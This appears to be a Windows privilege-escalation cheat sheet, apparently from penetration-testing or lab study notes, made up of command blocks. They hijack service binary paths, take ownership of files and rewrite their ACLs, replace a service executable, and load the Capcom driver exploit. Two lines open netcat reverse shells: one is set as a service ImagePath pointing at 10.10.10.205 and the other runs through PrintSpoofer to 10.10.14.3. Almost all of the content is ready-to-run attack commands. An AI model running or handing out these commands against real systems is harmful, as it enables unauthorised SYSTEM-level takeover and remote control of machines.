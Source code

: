 ```powershell

# Configure service to run custom binary
sc config SSDPSRV binPath= "C:\inetpub\siren\sirenMaint.exe" & sc config SSDPSRV obj= ".\LocalSystem" password= "" & sc config SSDPSRV start= "demand"

# Stop and start service
net stop SSDPSRV & net start SSDPSRV

# PowerShell service modification
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService" -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

## File and Permission Manipulation

```powershell
dir /q C:\backups\wwwroot\web.config    # Check file ownership
takeown /f C:\backups\wwwroot\web.config    # Take ownership
Get-ChildItem -Path 'C:\backups\wwwroot\web.config' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}    # Confirm ownership
icacls "C:\backups\wwwroot\web.config" /grant lafi:F    # Modify ACL
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"    # Check service permissions
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"    # Replace service binary
```

## Driver Exploits

```powershell
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp    # Compile driver exploit
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "??C:\Tools\Capcom.sys"    # Add driver reference
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1    # Add driver type
.DriverView.exe /stext drivers.txt & cat drivers.txt | Select-String -pattern Capcom    # Check driver
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys    # Load driver
```

## Modern Privilege Escalation Tools

### PrintSpoofer
```powershell
c:\tools\PrintSpoofer.exe -i -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe"
```

### SharpUp
```powershell
c:\tools\SharpUp.exe audit
```

### PsService
```powershell
c:\tools\PsService.exe security AppReadiness
```
